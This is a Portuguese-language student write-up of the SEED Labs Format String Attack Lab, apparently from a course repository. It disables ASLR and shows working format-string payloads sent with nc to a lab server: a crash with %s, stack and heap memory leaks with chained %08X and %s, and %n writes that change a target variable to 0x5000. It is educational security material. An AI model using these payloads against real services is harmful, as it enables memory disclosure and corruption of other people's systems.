


# Format String Attack Lab

## Environment Setup

> Primeiramente para resolver este _lab_ começamos por desativar as _countermeasures_ do _Ubuntu_ de modo a simplificar os nossos ataques. Vamos desativar a randomização de espaços de endereços, uma vez que, com esta ativada seria difícil advinhar os endereços exatos de memória. 
>```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
>```
> De seguida, abrimos dois terminais, um para os servidores que utilizam o Docker dos seed-labs e outra (o cliente) para estabelecer comunicação com esses servidores.
> <br>O ```format.c```, que é o programa que corre no servidor, foi compilado usando a _flag_ ```-z execstack``` porque só assim permite que código dentro da _stack_ seja executado.

## Task 1: Crashing the Program 

> Para fazer o servidor dar _crash_, foi suficiente inserir a seguinte _string_ como entrada:
> ```bash
> $ echo '%s' | nc 10.9.0.5 9090
>```
> A _format string_ procura o endereço imediatamente acima da sua posição na _stack_ e tenta imprimir a _string_ contida nesse endereço. Isso, muito provavelmente, resulta numa região fora da memória virtual do processo.
> <br>Depois de usarmos o comando acima fomos ao terminal onde tinhamos o _docker_ a correr e verificamos que não houve uma mensagem 'Returned Properly' como houve quando corremos:
> ```bash
> $ echo 'hello' | nc 10.9.0.5 9090
>```
> Sendo assim, chegamos a conclusão que o servidor _crashou_.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

> De modo a dar _print_ aos 4 primeiros _bytes_ do _input_ usando uma _format string_, é crucial ter um valor conhecido no _input_ para facilitar a identificação. Neste caso, escolhemos "AAAA", que em hexadecimal é representado como ```41414141```.
> A abordagem inicial consiste em fornecer como _input_ a concatenação de "AAAA" com vários "%08x".
> ```bash
> $ echo "AAAA%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
>```
> Ao analisar a saída do servidor, observamos:
> ```bash
> AAAA112233440000100008049DB5080E5320080E61C0FFB18480FFB183A8080E62D4080E5000FFB1844808049F7EFFB18480000000000000006408049F47080E5320000004D7FFB18585FFB18480080E532009C8F72000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000C35B4F00080E5000080E5000FFB18A6808049EFFFFB1848000000105000005DC080E5320000000000000000000000000FFB18B340000000000000000000000000000010541414141
>```   
> O final ```41414141``` representa o endereço da _string_ "AAAA" fornecida como _input_. Notavelmente, os _bytes_ estão invertidos.
> <br>Entre "AAAA" e ```41414141```, há 504 caracteres. Como cada endereço possui 8 caracteres (32 bits), há 63 endereços na pilha entre a format _string_ e o _buffer_.
> <br>Portanto, para imprimir os primeiros 4 _bytes_ do _input_ inicial, precisamos criar uma _string_ contendo exatamente 64 ```%x```: os primeiros 63 para exibir os endereços intermediários e o último para mostrar os 32 bits iniciais (4 _bytes_) do _input_.
 
### Task 2.B: Heap Data

> Nesta _task_, o objetivo era imprimir o conteúdo de uma _secret message string_ localizada na _Heap_, especificamente no endereço ```0x080b4008```. Utilizamos os mesmos princípios da _task_ anterior, uma vez que o programa executado no servidor permanece inalterado.
> Para representar o endereço ```0x080b4008``` como uma _string_, utilizamos a codificação ```\x08\x0b\x40\x08```. Ao inserir esse endereço no início do _input_, seguido por 63 ```%08x``` e um ```%s```, a format _string_ leu a partir desse endereço e retornou o valor oculto.
> O código executado foi o seguinte:
> ```c
> #include <stdlib.h>
> #include <string.h>
>
> int main() {
>    char command[296] = "echo \x08\x40\x0b\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %s | nc 10.9.0.5 9090";
>    system(command);
>    return 0;
> }
> ```
> O _output_ do lado do servidor revelou a mensagem do endereço ```0x080b4008``` como sendo "A secret message".


## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value.

> Nesta _task_, o objetivo era alterar o valor da variável ```target```, inicialmente definida como ```0x11223344``` e localizada no endereço ```0x080e5068```. Utilizamos o comando ```%n``` nas _format strings_ para escrever na região de memória referente ao argumento passado como parâmetro o número de caracteres escritos até o momento.
> A abordagem segue a mesma lógica da _task_ 2.B, com a diferença de que, em vez de ler do endereço selecionado, agora estamos a escrever nele.
> O código executado foi o seguinte:
> ```c
> #include <stdlib.h>
> #include <string.h>
>
> int main() {
>    char command[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
>    system(command);
>    return 0;
> }
> ```
> O _output_ do servidor demonstrou a modificação bem-sucedida no valor da variável ```target```, conforme evidenciado na imagem.


### Task 3.B: Change the value to 0x5000.

> Desta vez, o objetivo era alterar o valor de ```target``` para um valor específico: ```0x5000```, ou seja, ```20480``` em decimal. Conhecendo o comportamento do ```%n```, que escreve o número de caracteres escritos até o momento, o input até ```%n``` deveria ter ```20480``` caracteres. Dado que o input é extenso, utilizamos a notação ```%.NX```, com N = 20480 + 4 - 63*8 = ```19980```, para preencher os ```19980``` caracteres restantes com o valor ```0```.
> <br>O código executado foi o seguinte:
> ```c
> #include <stdlib.h>
> #include <string.h>
>
> int main() {
>    char command[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";
>    system(command);
>    return 0;
> }
> ```
> O _output_ do servidor confirmou a bem-sucedida modificação do valor de ```target``` para ```0x00005000```, como evidenciado nas imagens.


